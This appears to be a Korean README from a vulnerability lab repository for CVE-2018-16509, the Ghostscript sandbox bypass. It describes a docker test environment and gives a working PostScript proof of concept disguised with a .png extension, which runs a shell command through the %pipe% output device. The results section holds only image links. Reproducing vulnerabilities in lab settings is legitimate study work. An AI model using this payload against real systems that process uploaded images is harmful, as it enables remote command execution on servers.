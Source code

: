 <h1>CVE-2018-16509</h1>

**Contributors**

[정기현](https://github.com/jkh011120)

<br>

<h3>요약</h3>

CVE-2018-16509는 Postscript 및 PDF를 처리하는 Ghostscirpt를 우회하여 사용자가 의도치 않은 행위를 하게 함.
즉. 파일 확장자로 우회하여 공격 시도가 가능함.


<h3>환경 구성 및 실행</h3>

`docker compose up -d` 커맨드를 입력해 테스트 환경 실행 (GhostScript 9.23 및 ImageMagick 7.0.8버전을 사용합니다)



<h3>poc.ps -> poc.png </h3>
Postscript로 코드를 만든 후 확장자 명을 png로 만듦.

```
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id > /tmp/success && cat /tmp/success) currentdevice putdeviceprops
```

<h3>결과</h3>
![](./1.png)
![](./2.png)
![](./3.png)
![](./4.png)

<br>
<h3>정리</h3>

